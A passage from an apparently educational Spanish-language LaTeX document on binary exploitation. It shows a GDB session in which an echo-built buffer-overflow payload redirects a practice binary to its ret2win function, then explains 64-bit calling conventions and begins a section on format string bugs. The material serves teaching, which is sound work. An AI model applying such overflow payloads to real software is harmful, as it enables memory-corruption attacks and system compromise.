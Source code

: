 \begin{lstlisting}[language=bash, caption=Explotación de GDB con binario ret2win]
# Para que el programa entienda esa direccion de memoria, se necesita pasarlo en formato bytes
# Ademas dependiendo del endianness (Forma en la que lee las variables el binario), se necesita cambiar el orden
# En este caso (y en la gran mayoria) se usa little endian, se puede revisar usando show endian, por lo cual el valor que se debe pasar al programa es (0xa6910408)
# Se puede crear el payload usando bash con el siguiente comando: echo -e "AAAAAAAAAAAAAAAAAAAAAAAAAAAA\xa6\x91\x04\x08" > payload.txt
# Por ultimo, se carga como entrada al binario
$ echo -e "AAAAAAAAAAAAAAAAAAAAAAAAAAAA\xa6\x91\x04\x08" > payload.txt
(gdb) run < payload.txt
# Continuamos
(gdb) c
(gdb) c
Continuing.
Dime algo: 

Breakpoint 3, 0x080491ac in ret2win ()
# Stack Buffer overflow conseguido, se ha ejecutado la funcion ret2win
\end{lstlisting}

Esta prueba de concepto permite comprender el peligro de un \acrshort{bof}.
Aunque en esta demostración se ha utilizado una función `ret2win' para ejecutar una consola, existen otras técnicas que logran el mismo objetivo utilizando librerías comunes como \acrshort{libc}.

\subsubsection{Diferencias entre 32bits y 64bits}
En la actualidad, las arquitecturas están basadas en sistemas 64bits.
Estas arquitecturas comparten gran parte de la convención de llamadas de 32bit, sin embargo, la forma en la que se comparten los parametros entre funciones se realiza de una forma diferente.
En las arquitecturas 32bit los parametros se comparten mediante el stack como se ha referenciado en la figura \ref{fig:stack-arch}.
En el caso de 64bit, los parametros se comparten mediante registros específicos. Además, el analogo al \acrshort{eip} que es el RIP en 64bits soporta direcciones de memoria menores a 0x00007FFFFFFFFFFF, es decir, 48bits.
Dependiendo del sistema operativo se usan unos registros u otros para compartir los parámetros.

Toda la información relacionada con la convención de llamadas de 64bit en Linux se puede encontrar en el documento publicado por Linux Foundation \cite{x64asm}.

\subsection{Vulnerabilidad tipo Format String} \label{subsec:fmtstr}
El bug de tipo format string fue descubierto a principios de la decada de los 2000.
Inicialmente se consideró un bug, sin embargo, con el tiempo se reconocieron los riesgos asociados a este tipo de bug y pasó a considerarse una vulnerabilidad.

